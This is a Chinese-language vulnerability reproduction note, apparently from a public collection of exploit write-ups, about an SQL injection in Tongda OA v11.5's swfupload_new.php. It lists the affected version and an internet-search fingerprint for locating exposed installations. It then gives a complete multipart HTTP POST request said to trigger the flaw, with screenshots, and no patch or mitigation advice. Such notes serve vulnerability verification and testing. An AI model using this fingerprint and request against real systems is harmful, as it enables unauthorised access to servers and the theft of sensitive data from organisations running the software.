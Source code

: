 # 

# 通达OA v11.5 swfupload_new.php SQL注入漏洞

## 漏洞描述

通达OA v11.5 swfupload_new.php 文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器敏感信息

## 漏洞影响

```
通达OA v11.5
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154058320](./images/202205201540406.png)

发送请求包触发漏洞

```
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 355
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2
Accept-Encoding: gzip

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

------------GFioQpMK0vv2--
```

![image-20220520154111741](./images/202205201541795.png)
